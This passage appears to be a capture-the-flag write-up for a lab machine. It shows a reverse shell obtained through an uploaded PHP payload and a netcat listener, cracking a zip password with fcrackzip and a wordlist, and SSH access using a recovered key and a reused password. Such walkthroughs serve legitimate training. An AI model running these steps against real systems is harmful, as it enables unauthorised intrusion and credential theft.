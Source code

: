 ![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/9dbd598d-7e94-428f-b960-b32eeb89a882/1654a8c1-45d3-4e20-bd0a-ee5cb915368a/image.png)

By uploading payload.php then browsing to http://192.168.56.105:8080/dev/files/payload.php, I was able to get a reverse shell.

```
└─$ nc -lvp 6000 
listening on [any] 6000 ...
192.168.56.105: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.105] 41012
whoami
www-data
hostname
dev
```

I ran linpeas on the server but didn’t find anything of interest.

I decided to check out port 2049. I mounted the drive and found save.zip. The zip file has a password on it so I decided to try to crack it with fcrackzip:

```
└─$ fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
found file 'todo.txt', (size cp/uc    138/   164, flags 9, chk 2aa1)

PASSWORD FOUND!!!!: pw == java101

```

Todo.txt:

```
$ cat todo.txt              
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp

```

This looks like a note from jp which is probably the user jeanpaul. We can try to ssh in as him with the ssh key that was included in the zip file.

```
$ ssh -i id_rsa jeanpaul@192.168.56.105
Enter passphrase for key 'id_rsa': 
```

The ssh key has a passphrase on it. I tried the password I found earlier for the admin of BoltWire (I_love_java) and it worked!

```
Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun  2 05:25:21 2021 from 192.168.10.31
jeanpaul@dev:~$ ls
jeanpaul@dev:~$ pwd
/home/jeanpaul
```

